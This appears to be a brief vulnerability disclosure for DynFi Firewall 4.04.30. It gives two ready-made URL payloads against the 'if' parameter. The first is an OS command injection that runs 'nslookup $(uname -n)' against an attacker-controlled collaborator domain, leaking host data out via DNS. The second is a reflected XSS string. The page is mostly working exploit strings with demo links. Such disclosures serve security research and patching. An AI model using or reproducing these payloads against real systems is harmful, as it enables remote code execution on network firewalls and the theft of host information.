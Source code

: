 

Vulnerability: OS Command Injection / RCE

Version: ```DynFi-Firewall-4.04.30```

Authenticated: ```Yes```

User: ```Administrator Level```

Vulnerable Parameter: 
```if```

Payload:

```Replace with your collaborator```

```http://192.168.124.34/ui/suricata/alerts/download?if=vtnet0%26nslookup%20$(uname%20-n).<REPLACE ME>.&%27%5C%22```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/DynFi-Firewall-4.04.30-RCE-via-if-parameter.gif?raw=true)



Vulnerability: Reflected XSS

Version: ```DynFi-Firewall-4.04.30```

Authenticated: ```Yes```

User: ```Administrator Level```

Vulnerable Parameter: 
```if```

Payload:
```http://192.168.124.34/firewall_rules_edit.php?if=%27%3bjavascript:alert(123)%2f%2f```

Requires Interaction: ```Yes```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/DynFi-Firewall-4.04.30-Reflected-XSS-via-if-parameter.gif?raw=true)
